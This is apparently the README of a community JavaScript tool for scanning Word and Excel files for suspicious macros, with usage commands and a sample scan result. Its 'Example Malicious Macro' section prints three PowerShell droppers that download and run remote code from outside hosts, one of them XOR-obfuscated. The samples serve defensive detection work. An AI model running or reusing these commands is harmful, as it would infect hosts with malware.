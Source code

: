# ScanWordDoc
Look for malicious patterns in Word Docs. Intended to be used inline with email or standalone per file.

This is a community project at https://www.codeforatlanta.org/ 

## goals
1. Tackle common high value security issues in a way that is accessible to everyone.
2. Create a script that will scan a word doc and validate, it's valid, it works, if it has macros, if those macros look suspicious
3. Create methods / scripts to put it inline with various email systems for easy and free
4. Create a successful patternt that can be used for other similar security use cases.
5. DO NOT compromise the host that is scanning the file
6. Create the script in javascript for ease of portability

## getting started

scan individual files
```bash
> node scan.js ./tests/benign/nomacros.doc
> node scan.js ./tests/benign/hasmacros.doc
> node scan.js ./tests/malicious/hasmacros.doc
```
or scan directories + subdirectories
```
> node scan.js ./tests/
```


## Supported Files
1. Excel XLS
2. Word DOC

## Example Response
```JSON
{ fileType: 'doc',
  hasMacro: true,
  macroTxt: 'Sub SortText()
    Selecton.h
    End P',
  isValid: false,
  hasContent: true }
```

## Example Malicious MAcro / Command
```powershell
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -Exec Bypass -NoP -NoExit -Command iex((New-Object System.Net.WebClient).DownloadString('http://qwdiqjwdwqu9daquwddd.com/REX/slick.php?utma=torzd'))
```
```powershell
POwerSHell &( $psHOme[21]+$PSHOMe[30]+'x') ( ([char[]]( 96 ,6,19, 11 ,45,34 ,100, 121,100 ,42,33 , 51, 105 ,43 ,38,46 ,33,39,48 ,100,54, 37,42 ,32,43,41 , 127 ,96 ,15, 6,37, 17 ,9 , 46 , 100 ,121 ,100, 42, 33 , 51, 105 , 43, 38 ,46, 33 , 39, 48,100, 23, 61, 55 ,48,33 , 41, 106 , 10 , 33, 48,106,19, 33,38 , 7 , 40,45 ,33, 42,48 , 127, 96,52 , 39, 62 ,49 ,53 , 100, 121, 100, 99,44,48 ,48 , 52 ,126,107, 107,37, 42, 32 ,43, 54 , 45 ,43,37 , 55 , 42, 33,55, 106,39, 43,41,107,12, 12 , 8, 8,107, 45,42 , 32, 33 ,60, 106,52 ,44 ,52,123 ,40,121,38, 43 ,42,61 , 118,106 , 39, 40 , 37 , 55,55 , 99, 106 , 23 , 52 , 40,45, 48 , 108, 99 , 4 ,99,109, 127,96, 39, 41 ,17 ,12, 50 ,100, 121, 100 , 96, 6,19 ,11 ,45,34,106, 42, 33 , 60 ,48 , 108, 117, 104,100, 117,114 , 114 , 115,119 , 113 , 109 ,127 , 96,22,0 , 14 , 51, 42, 100,121 ,100,96,33, 42, 50, 126,48 , 33,41, 52 , 100 , 111 ,100, 99 ,24 , 99, 100 ,111, 100,96 ,39 ,41 , 17,12 ,50, 100 ,111, 100,99 , 106 , 33,60 ,33, 99,127,34 ,43, 54, 33 , 37, 39, 44, 108 ,96 , 16, 23 ,50 ,43 , 54, 3,100, 45 ,42 ,100,96 , 52, 39, 62, 49 ,53, 109, 63 , 48 , 54 , 61, 63 , 96 ,15 , 6,37 ,17,9, 46 ,106,0, 43,51, 42 ,40,43,37,32,2,45 , 40,33 , 108, 96 , 16 ,23,50, 43, 54, 3 ,106 , 16,43 ,23 , 48,54, 45,42 , 35,108 ,109 , 104, 100 , 96 ,22, 0, 14 , 51,42,109 , 127 , 23,48 , 37 ,54,48,105 ,20,54 , 43,39, 33,55 , 55, 100,96 ,22, 0,14, 51 ,42, 127, 38, 54, 33, 37 ,47 ,127,57,39, 37 ,48 , 39, 44, 63, 51 ,54, 45 , 48, 33 ,105, 44, 43,55, 48 , 100, 96 , 27, 106 ,1,60,39 , 33, 52,48,45 , 43,42 ,106,9, 33 ,55,55,37 ,35, 33 , 127,57 ,57) | foreAcH-ObJECt {[char]( $_ -BXOR'0x44') })-jOiN'' )
```
```powershell
$BWOif = new-object random;$KBaUMj = new-object System.Net.WebClient;$pczuq = 'http://andorioasnes.com/HHLL/index.php?=bony2.class'.Split('@');$cmUHv = $BWOif.next(1, 166735);$RDJwn = $env:temp + '\' + $cmUHv + '.exe';foreach($TSvorG in $pczuq){try{$KBaUMj.DownloadFile($TSvorG.ToString(), $RDJwn);Start-Process $RDJwn;break;}catch{write-host $_.Exception.Message;}}
```

## References
- https://www.npmjs.com/package/cfb : currently the primary library supporting functions thanks Yaw Agyepong !
- https://github.com/curi0usJack/luckystrike
- https://github.com/enigma0x3/Generate-Macro
- https://github.com/joesecurity/pafishmacro
- https://github.com/strawp/poisonpen
- https://github.com/gpalazolo/olevba_analyzer
- https://github.com/teto2005/Generate-Macro-is-a-standalone-PowerShell-script-that-will-generate-a-malicious-Microsoft-Office-doc
- https://github.com/Heteroskedastic/corrupt-file-scanner
- https://developers.google.com/gmail/api/quickstart/nodejs
